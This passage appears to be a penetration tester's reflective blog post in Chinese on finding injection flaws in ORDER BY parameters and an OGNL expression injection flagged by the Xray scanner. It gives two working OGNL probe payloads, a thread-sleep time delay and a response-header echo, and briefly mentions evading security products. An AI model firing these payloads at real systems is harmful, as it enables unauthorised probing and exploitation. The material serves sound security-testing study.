

  


  

思考

在平常渗透测试的时候，我知道在 order by 排序参数这里出现 SQL 注入的可能性会比较高，在测试中也会优先去找排序功能测试是否存在 SQL 注入漏洞。因为 order by 无法使用预编译的方式进行安全处理，一些安全意识不高的开发人员可能会倾向于做一些黑名单处理或者干脆就使用拼接的方式不做任何处理。当然安全处理方式肯定是做白名单检验，排序的字段基本都是固定的，一般也不多，因此不需要考虑用户其他太多的输入情况。

反思自己在之前的人工渗透测试中，其实对这种表达式注入的漏洞关注度是很低的，除非是一些已知历史漏洞存在相关的关联性才会想着往表达式注入这一块去测试，比如一些已知的框架或者通用应用之类的。如果不借助自动化测试工具的话，按照自己以往的测试习惯的话，这个 OGNL 表达式漏洞必然是会被我忽略的。由此想到，这个世界总会存在一些我们认知之外的事物，经验会让一个人变得丰富，但同时也可能会让我们忽略一些偶然的事物。

没有进一步研究 Xray 针对表达式注入的其他检测 Poc，不知是否有考虑到无回显场景的检测呢？单看目前这个检测的 Poc 的话，如果响应数据包是没有回显的话，必然也是会存在漏报的。考虑无回显场景的检测的话目前能想到检测方案有两个：一是通过时间延迟检测；二是构造回显检测。综合来说。时间延迟检测会是一个比较稳妥的方案，Poc 比较简单，通用型比较强，也不需要考虑其他的依赖。  

时间延迟检测 Poc 示例：  

```plain
${@java.lang.Thread@currentThread().sleep(9000L)}
```



构造回显检测 Poc 示例：  

```plain
${@org.springframework.web.context.request.RequestContextHolder@currentRequestAttributes().getResponse().setHeader("X-Check",'vulnerable')}
```



当然，如果要实现比较理想的检出效果（高检出率和低误报率），肯定不仅仅是直接发一个时间延迟的 Poc 请求然后直接看响应的延迟，或者就直接发一个构造回显的请求，更多的还要综合考虑网络本身的延迟、Poc 的依赖条件等因素的影响，以及如何尽量躲避安全产品的检测防护。

  

参考资料：  

https://forum.butian.net/share/1749
